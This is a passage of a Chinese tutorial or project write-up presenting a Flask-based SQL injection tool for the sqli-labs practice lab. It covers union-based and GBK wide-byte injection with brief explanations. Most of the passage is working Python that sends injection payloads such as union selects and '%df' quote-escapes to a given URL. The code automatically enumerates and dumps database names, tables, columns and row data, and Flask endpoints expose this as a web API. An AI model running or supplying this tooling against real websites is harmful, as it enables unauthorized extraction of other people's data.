@bp.route('/GetDBColumns', methods=['POST'])
@require('url', "DBName", "DBTable")
def GetDBColumns():
    DBColumns = errorsql.GetDBColumns(request.json.get('url'), request.json.get('DBName'), request.json.get('DBTable'))
    listID = range(1, len(DBColumns) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBColumns": dict(zip(listID, DBColumns))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBData', methods=['POST'])
@require('url', "DBName", "DBTable", "DBColumn")
def GetDBData():
    DBData = errorsql.GetDBData(request.json.get('url'), request.json.get('DBName'), request.json.get('DBTable'),
                                request.json.get('DBColumn'))
    listID = range(1, len(DBData) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBData": DBData
         }
    return Response(json.dumps(t), mimetype='application/json')

```


### 联合查询注入

union会一次显示两个查询结果，我们可以使得第一个查询语句作为正常内容，第二个作为查询语句来进行构造。 

当页面对不同的查询语句有不同的结果时可以使用，因为我们根据需要每一步的返回结果来判断和进行下一步操作

#### unionsql.py

```python
import re
import requests

# Less-1: ?id=1'
# Less-2: ?id=1')

# https://zhuanlan.zhihu.com/p/396365059

# 前提1：判断有注入点
payload1 = "?id=1'"
payload2 = "?id=-1'"


# 前提2：判断网页显示的数据表字段数量,联合查询条件：显示出的字段至少一个
def GetColumnsNum(url):
    i = 1
    while 1:
        test = url + payload1 + f"order by {i} --+"
        # 请求
        req = requests.get(test)
        req.encoding = 'gbk'
        # 得到网页的html
        html = req.text
        text = str(html)
        if "Unknown column" in text:
            break
        i += 1
    return i


# sql语句根据显示出的字段而定: 在sqlilab中是第一个字段id不会显示，显示的字段为“Your Login name”、“Your Password”,
# 我们把查询结果显示在Your Login name

# 获取数据库名
def GetDBName(url):
    db_name = ''
    test = url + payload2 + " union select 1,database(),3 from information_schema.schemata --+"
    # 请求
    req = requests.get(test)
    req.encoding = 'gbk'
    # 得到网页的html
    html = req.text
    text = str(html)
    # 正则匹配
    db_name = re.search("Your Login name:(.*?)<", text).group(1)
    return db_name


# 获取数据库表函数
def GetDBTables(url, table_schema):
    table_names = []
    # 一次获取一个
    for num in range(20):
        test = url + payload2 + f"union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = '{table_schema}' limit {num},1),3 --+"
        # 请求
        # print(test)
        con = requests.get(test)
        con.encoding = 'gbk'
        # 得到网页的html
        html = con.text
        text = str(html)
        table_name = re.search("Your Login name:(.*?)<", text).group(1)
        if table_name == "":
            # num超过现有个数而没有结果，则break
            break
        table_names.append(table_name)
    return table_names


# 获取数据库表的字段函数
def GetDBColumns(url, db_name, table_name):
    column_names = []
    for num in range(20):
        test = url + payload2 + "union select 1,(select column_name from " \
                                f"information_schema.columns where table_schema='{db_name}' and table_name='{table_name}' limit {num},1),3--+ "
        # 请求
        # print(test)
        con = requests.get(test)
        # print(con.url)
        con.encoding = 'gbk'
        html = con.text
        # 得到网页的html
        text = str(html)
        column_name = re.search("Your Login name:(.*?)<", text).group(1)
        if column_name == "":
            # num超过现有个数而没有结果，则break
            break
        column_names.append(column_name)
    return column_names


# 获取表数据函数
def GetDBData(url, db_name, table_name, colunm_name):
    colunm_values = {}
    colunm_values[colunm_name] = []
    for num in range(20):
        test = url + payload2 + f" union select 1,(select {colunm_name} from {db_name}.{table_name} limit {num},1),3--+ "
        # 请求
        # print(test)
        con = requests.get(test)
        con.encoding = 'gbk'
        # 得到网页的html
        html = con.text
        text = str(html)
        column_value = re.search("Your Login name:(.*?)<", text).group(1)
        if column_value == "":
            # num超过现有个数而没有结果，则break
            break
        colunm_values[colunm_name].append(column_value)
    return colunm_values


def StartSqli(url):
    db_name = GetDBName(url)
    print(str(db_name))
    table_names = GetDBTables(url, db_name)
    print('-- ' + db_name + ':' + str(table_names))
    for table_name in table_names:
        column_names = GetDBColumns(url, db_name, table_name)
        print('---- ' + table_name + ':' + str(column_names))
        for column_name in column_names:
            column_values = GetDBData(url, db_name, table_name, column_name)
            print('------' + column_name + ':' + str(column_values[column_name]))


if __name__ == '__main__':
    url = "http://b41313c2-b36b-4cf6-8bd6-feddfc74739e.node4.buuoj.cn/Less-1/"
    StartSqli(url)

```


#### unionController.py

```python
import json

from flask import Flask, request, Response, Blueprint
from SQLinjection.hander.hd_base import require
from SQLinjection.sql import unionsql

bp = Blueprint('union', __name__, url_prefix='/union')


@bp.route('/GetDBName', methods=['POST'])
@require('url')
def GetDBName():
    DBName = unionsql.GetDBName(request.json.get('url'))
    t = {"code": 0,
         "message": "爆破成功",
         "DBName": DBName
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBTables', methods=['POST'])
@require('url', "DBName")
def GetDBTables():
    DBTables = unionsql.GetDBTables(request.json.get('url'), request.json.get('DBName'))
    listID = range(1, len(DBTables) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBTables": dict(zip(listID, DBTables))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBColumns', methods=['POST'])
@require('url', "DBName", "DBTable")
def GetDBColumns():
    DBColumns = unionsql.GetDBColumns(request.json.get('url'), request.json.get('DBName'), request.json.get('DBTable'))
    listID = range(1, len(DBColumns) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBColumns": dict(zip(listID, DBColumns))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBData', methods=['POST'])
@require('url', "DBName", "DBTable", "DBColumn")
def GetDBData():
    DBData = unionsql.GetDBData(request.json.get('url'), request.json.get('DBName'), request.json.get('DBTable'),
                                request.json.get('DBColumn'))
    listID = range(1, len(DBData) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBData": DBData
         }
    return Response(json.dumps(t), mimetype='application/json')


if __name__ == '__main__':
    app.run()

```


### 宽字节注入

在`magic_quotes_gpc=On`的情况下，提交的参数中如果带有单引号`’`，就会被自动转义`\’`，十六进制为`0x5c 0x27`，使很多注入攻击无效，

**GBK双字节编码：**一个汉字用两个字节表示，首字节对应`0×81-0xFE`，尾字节对应`0×40-0xFE`（除0×7F），刚好涵盖了转义符号`\`对应的编码`0x5C`。

例如，`0xD5 0×5C` 对应了汉字“`诚`”，URL编码用百分号加字符的16进制编码表示字符，于是 `%d5%5c` 经URL解码后为“`诚`”，使`'`不再被转义。

#### wide_charsql.py

```python
import re
import requests

# Less-32
# https://blog.csdn.net/jhzzzz/article/details/113094411
# https://blog.csdn.net/ZripenYe/article/details/119651799
# 宽字节注入的情况：'、"、)被转义，如'被转义为\'
# 单引号前加%df，GBK编码中反斜杠的编码为%5c，而%df%5c表示繁体字“連”，所以这时单引号成功逃逸
payload1 = "?id=1%df'"
payload2 = "?id=-1%df'"

# 接下来可以参照联合查询 或 其它可用的查询
# 但注意后面的sql语句不能出现会被转移的字符，如不能出现TABLE_SCHEMA='security'。这需要把字符串'security'转为16进制
def StringToHex(str):
    return '0x'+''.join([hex(ord(c)).replace('0x','') for c in str])
print(StringToHex("security"))
# 获取数据库名
def GetDBName(url):
    db_name = ''
    test = url + payload2 + " union select 1,database(),3 from information_schema.schemata --+"
    # 请求
    req = requests.get(test)
    req.encoding = 'gbk'
    # 得到网页的html
    html = req.text
    text = str(html)
    # 正则匹配
    db_name = re.search("Your Login name:(.*?)<", text).group(1)
    return db_name


# 获取数据库表函数
def GetDBTables(url, table_schema):
    table_names = []
    table_schema=StringToHex(table_schema)
    # 一次获取一个
    for num in range(20):
        test = url + payload2 + f"union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA={table_schema} limit {num},1),3 --+"
        # 请求
        print(test)
        con = requests.get(test)
        con.encoding = 'gbk'
        # 得到网页的html
        html = con.text
        text = str(html)
        table_name = re.search("Your Login name:(.*?)<", text).group(1)
        if table_name == "":
            # num超过现有个数而没有结果，则break
            break
        table_names.append(table_name)
    return table_names


# 获取数据库表的字段函数
def GetDBColumns(url, db_name, table_name):
    column_names = []
    db_name=StringToHex(db_name)
    table_name=StringToHex(table_name)
    for num in range(20):
        test = url + payload2 + "union select 1,(select column_name from " \
                                f"information_schema.columns where TABLE_SCHEMA={db_name} and table_name={table_name} limit {num},1),3--+ "
        # 请求
        # print(test)
        con = requests.get(test)
        # print(con.url)
        con.encoding = 'gbk'
        html = con.text
        # 得到网页的html
        text = str(html)
        column_name = re.search("Your Login name:(.*?)<", text).group(1)
        if column_name == "":
            # num超过现有个数而没有结果，则break
            break
        column_names.append(column_name)
    return column_names


# 获取表数据函数
def GetDBData(url, db_name, table_name, colunm_name):
    colunm_values = {}
    colunm_values[colunm_name] = []
    for num in range(20):
        test = url + payload2 + f" union select 1,(select {colunm_name} from {db_name}.{table_name} limit {num},1),3--+ "
        # 请求
        # print(test)
        con = requests.get(test)
        con.encoding = 'gbk'
        # 得到网页的html
        html = con.text
        text = str(html)
        column_value = re.search("Your Login name:(.*?)<", text).group(1)
        if column_value == "":
            # num超过现有个数而没有结果，则break
            break
        colunm_values[colunm_name].append(column_value)
    return colunm_values


def StartSqli(url):
    db_name = GetDBName(url)
    print(str(db_name))
    table_names = GetDBTables(url, db_name)
    print('-- ' + db_name + ':' + str(table_names))
    for table_name in table_names:
        column_names = GetDBColumns(url, db_name, table_name)
        print('---- ' + table_name + ':' + str(column_names))
        for column_name in column_names:
            column_values = GetDBData(url, db_name, table_name, column_name)
            print('------' + column_name + ':' + str(column_values[column_name]))


if __name__ == '__main__':
    url = "http://1d7b87a0-abb7-4168-909e-7ac77d06f8e4.node4.buuoj.cn/Less-32/"
    StartSqli(url)

```


#### wide_charController.py

```python
import json

from flask import Flask, request, Response, Blueprint
from SQLinjection.hander.hd_base import require
from SQLinjection.sql import wide_charsql

app = Flask(__name__)

bp = Blueprint('wide_char', __name__, url_prefix='/wide_char')

@bp.route('/GetDBName', methods=['POST'])
@require('url')
def GetDBName():
    DBName = wide_charsql.GetDBName(request.json.get('url'))
    t = {"code": 0,
         "message": "爆破成功",
         "DBName": DBName
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBTables', methods=['POST'])
@require('url', "DBName")
def GetDBTables():
    DBTables = wide_charsql.GetDBTables(request.json.get('url'), request.json.get('DBName'))
    listID = range(1, len(DBTables) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBTables": dict(zip(listID, DBTables))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBColumns', methods=['POST'])
@require('url', "DBName", "DBTable")
def GetDBColumns():
    DBColumns = wide_charsql.GetDBColumns(request.json.get('url'), request.json.get('DBName'), request.json.get('DBTable'))
    listID = range(1, len(DBColumns) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBColumns": dict(zip(listID, DBColumns))
         }
    return Response(json.dumps(t), mimetype='application/json')


@bp.route('/GetDBData', methods=['POST'])
@require('url', "DBName", "DBTable", "DBColumn")
def GetDBData():
    DBData = wide_charsql.GetDBData(request.json.get('url'), request.json.get('DBName'), request.json.get('DBTable'),
                                request.json.get('DBColumn'))
    listID = range(1, len(DBData) + 1)
    t = {"code": 0,
         "message": "爆破成功",
         "DBData": DBData
         }
    return Response(json.dumps(t), mimetype='application/json')


if __name__ == '__main__':
    app.run()

```

